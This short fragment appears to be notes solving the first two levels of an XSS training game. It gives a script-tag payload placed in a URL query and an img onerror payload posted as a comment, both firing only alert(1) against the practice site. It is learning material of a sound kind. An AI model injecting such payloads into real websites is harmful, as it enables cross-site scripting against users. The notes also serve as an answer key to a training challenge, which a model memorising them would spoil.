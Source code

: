 Level 1 : change the URL : https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>

Level 2 : add a comment with the following message : "<img src=1 onerror=alert(1)>"

